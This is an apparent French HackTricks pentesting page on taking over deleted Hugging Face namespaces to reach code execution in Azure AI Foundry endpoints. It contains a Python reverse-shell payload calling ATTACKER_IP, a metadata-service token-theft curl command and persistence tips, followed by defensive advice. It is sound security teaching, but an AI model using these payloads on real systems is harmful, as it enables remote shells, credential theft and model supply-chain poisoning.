 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scénario

- Le Model Catalog d'Azure AI Foundry inclut de nombreux modèles Hugging Face (HF) pour un déploiement en un clic.
- Les identifiants de modèle HF sont Author/ModelName. Si un auteur/org HF est supprimé, n'importe qui peut ré-enregistrer cet author et publier un modèle avec le même ModelName au legacy path.
- Les pipelines et catalogs qui récupèrent le modèle uniquement par nom (pas de commit pinning/integrity) résoudront vers des repos contrôlés par un attaquant. Quand Azure déploie le modèle, le loader code peut s'exécuter dans l'endpoint environment, accordant RCE avec les permissions de cet endpoint.

Cas courants de takeover HF :
- Ownership deletion : Old path 404 until takeover.
- Ownership transfer : Old path 307 to the new author while old author exists. If the old author is later deleted and re-registered, the redirect breaks and the attacker’s repo serves at the legacy path.

## Identification des namespaces réutilisables (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Flux d'attaque de bout en bout contre Azure AI Foundry

1) Dans le Model Catalog, trouvez des modèles HF dont les auteurs originaux ont été supprimés ou transférés (old author removed) sur HF.  
2) Réenregistrez l'auteur abandonné sur HF et recréez le ModelName.  
3) Publiez un repo malveillant contenant du loader code qui s'exécute lors de l'import ou nécessite trust_remote_code=True.  
4) Déployez le legacy Author/ModelName depuis Azure AI Foundry. La plateforme récupère le repo de l'attaquant ; le loader s'exécute à l'intérieur du container/VM de l'endpoint Azure, conduisant à une RCE avec les permissions de l'endpoint.

Exemple de payload fragment exécuté lors de l'import (à titre de démonstration uniquement) :
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Remarques
- Les déploiements AI Foundry qui intègrent HF clonent généralement et importent des modules de repo référencés par la config du modèle (p. ex., auto_map), ce qui peut déclencher l'exécution de code. Certains chemins nécessitent trust_remote_code=True.
- L'accès correspond généralement aux permissions de managed identity/service principal de l'endpoint. Considérez-le comme un initial access foothold pour l'accès aux données et le mouvement latéral au sein d'Azure.

## Post-Exploitation Tips (Azure Endpoint)

- Enumérez les variables d'environnement et les endpoints MSI à la recherche de tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Vérifiez le stockage monté, les artefacts de modèle et les services Azure accessibles avec le jeton acquis.
- Envisagez une persistance en laissant des artefacts de modèle empoisonnés si la plateforme récupère à nouveau depuis HF.

## Recommandations défensives pour les utilisateurs d'Azure AI Foundry

- Épingler les modèles par commit lors du chargement depuis HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Répliquer les modèles HF vérifiés dans un registre interne de confiance et déployer depuis celui-ci.
- Scanner en continu les codebases et defaults/docstrings/notebooks pour des Author/ModelName codés en dur qui sont supprimés/transférés ; mettre à jour ou fixer.
- Valider l'existence de l'auteur et la provenance du modèle avant le déploiement.

## Heuristiques de reconnaissance (HTTP)

- Auteur supprimé : la page de l'auteur 404 ; chemin legacy du modèle 404 jusqu'à une prise de contrôle.
- Modèle transféré : chemin legacy 307 vers le nouvel auteur pendant que l'ancien auteur existe ; si l'ancien auteur est ensuite supprimé et réenregistré, le chemin legacy renverra du contenu de l'attaquant.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Références croisées

- Voir la méthodologie plus large et les notes sur la supply-chain :

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Références

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
